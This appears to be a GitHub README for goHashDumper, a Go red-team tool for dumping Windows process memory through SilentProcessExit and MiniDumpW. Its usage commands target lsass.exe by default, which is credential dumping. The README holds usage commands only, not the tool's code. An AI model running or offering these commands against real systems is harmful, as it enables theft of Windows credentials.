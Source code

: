 # goHashDumper

## Note
Dump内存都需要管理员权限

## Description 
用于Dump指定进程的内存,主要利用静默退出机制(SilentProcessExit)和Windows API(MiniDumpW)实现

## Usage
```
gohashdumper.exe -method 1 -out test.dmp -process lsass.exe
gohashdumper.exe -method 2 -path C:\tmp -pid 2333
  -method string
        choose Dump file Method(1 => MiniDumpW  2=> SilentExitDump) (default "1")
  -out string
        dump file name (default "lsass.dmp")
  -path string
        only method 2 need a filepath (default "D:\\RedTeam\\GoHashDumper")
  -pid string
        If not use process name,it can support pid
  -process string
        Process to dump (default "lsass.exe")
 ```
 
 ## Example
 ![](https://github.com/crisprss/goHashDumper/blob/main/image.png)
